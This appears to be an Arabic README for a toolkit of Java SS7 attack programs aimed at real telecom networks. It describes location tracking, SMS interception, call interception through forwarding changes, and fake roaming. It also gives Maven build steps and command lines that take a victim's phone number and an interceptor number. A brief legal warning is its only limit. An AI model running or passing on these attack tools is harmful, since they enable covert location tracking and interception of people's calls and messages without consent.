 # هجمات SS7 الحقيقية

هذا المجلد يحتوي على أكواد جافا لتنفيذ هجمات SS7 حقيقية على شبكات الاتصالات. هذه الأكواد تستخدم مكتبة jSS7 (Restcomm SS7) للاتصال بشبكات SS7 الحقيقية.

## تحذير قانوني

استخدام هذه الأكواد على شبكات حقيقية دون ترخيص قانوني يعتبر غير قانوني في معظم البلدان. يجب استخدام هذه الأكواد فقط في بيئات اختبار مرخصة وبموافقة مسبقة من الجهات المعنية.

## متطلبات التشغيل

1. مكتبة jSS7 (Restcomm SS7)
2. بيئة تطوير جافا (JDK 8 أو أحدث)
3. Maven أو Gradle لإدارة التبعيات
4. وصول إلى شبكة SS7 (بوابة SS7 أو STP)

## الهجمات المتوفرة

### 1. AnyTimeInterrogation (تتبع الموقع)

ملف: `AnyTimeInterrogationAttack.java`

يستخدم عملية AnyTimeInterrogation لتتبع موقع المستخدم المستهدف من خلال شبكة SS7.

### 2. SMS Interception (اعتراض الرسائل النصية)

ملف: `SMSInterceptionAttack.java`

يستخدم عمليتي SendRoutingInfoForSM و MT-ForwardSM لاعتراض الرسائل النصية المرسلة إلى المستخدم المستهدف.

### 3. Call Interception (التنصت على المكالمات)

ملف: `CallInterceptionAttack.java`

يستخدم عملية InsertSubscriberData لتعديل إعدادات تحويل المكالمات للمستخدم المستهدف، مما يسمح باعتراض المكالمات الواردة.

### 4. Fake Roaming (خداع الشبكة)

ملف: `FakeRoamingAttack.java`

يستخدم عملية UpdateLocation لجعل المستخدم المستهدف يظهر كأنه في بلد آخر (تجوال مزيف).

## طريقة التجميع

لتجميع هذه الأكواد إلى ملفات JAR قابلة للتنفيذ:

1. قم بتثبيت مكتبة jSS7:
```
git clone https://github.com/HN1A/sigploit-ss7.git
cd sigploit-ss7
mvn clean install
```

2. أنشئ مشروع Maven جديد وأضف التبعيات التالية إلى ملف pom.xml:
```xml
<dependencies>
    <dependency>
        <groupId>org.restcomm.protocols.ss7</groupId>
        <artifactId>map-api</artifactId>
        <version>7.4.0</version>
    </dependency>
    <dependency>
        <groupId>org.restcomm.protocols.ss7</groupId>
        <artifactId>map-impl</artifactId>
        <version>7.4.0</version>
    </dependency>
    <dependency>
        <groupId>org.restcomm.protocols.ss7</groupId>
        <artifactId>sccp-api</artifactId>
        <version>7.4.0</version>
    </dependency>
    <dependency>
        <groupId>org.restcomm.protocols.ss7</groupId>
        <artifactId>tcap-api</artifactId>
        <version>7.4.0</version>
    </dependency>
</dependencies>
```

3. انسخ ملفات Java إلى مجلد src/main/java في مشروع Maven

4. قم بتجميع المشروع:
```
mvn clean package
```

5. ستجد ملف JAR في مجلد target

## طريقة الاستخدام

لتنفيذ هجوم AnyTimeInterrogation:
```
java -jar ss7-attacks.jar AnyTimeInterrogationAttack <target_msisdn>
```

لتنفيذ هجوم SMS Interception:
```
java -jar ss7-attacks.jar SMSInterceptionAttack <target_msisdn> <interceptor_msisdn>
```

لتنفيذ هجوم Call Interception:
```
java -jar ss7-attacks.jar CallInterceptionAttack <target_msisdn> <interceptor_msisdn>
```

لتنفيذ هجوم Fake Roaming:
```
java -jar ss7-attacks.jar FakeRoamingAttack <target_msisdn> <fake_mcc> <fake_mnc>
```
